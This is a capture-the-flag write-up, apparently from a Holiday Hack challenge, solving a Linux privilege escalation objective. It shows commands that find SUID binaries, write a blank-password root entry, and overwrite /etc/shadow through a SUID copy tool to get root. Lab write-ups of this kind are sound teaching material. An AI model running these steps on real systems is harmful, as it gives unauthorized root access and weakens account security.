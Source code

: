 ```yaml
---
icon: material/text-box-outline
---
```


# Linux PrivEsc

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective 6 URL](https://.../)

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?<br/>
    Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's various ways to escalate privileges on a Linux system.https://payatu.com/blog/a-guide-to-linux-privilege-escalation/

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument..



## Solution

After grabbing console access to terminal we started exploring interesting files on filesystem

```
find / -perm -u+s 2>/dev/null
```

And we found interesting binary **/usr/bin/simplecopy**

Next we checked directory /etc/shadow for its structure. Create simple sh2 file with root without password.

```
echo -e "root::19634:0:99999:7:::" > sh2
```

Next using simplecopy binary we modified /etc/shadow file and su didnt' require any password so we could freely use root account

```
 simplecopy sh2 /etc/shadow
 su

```

### Images

![Terminal output](../img/objectives/o7/terminal-privesc.png)


!!! success "Answer"
    "santa"

## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.
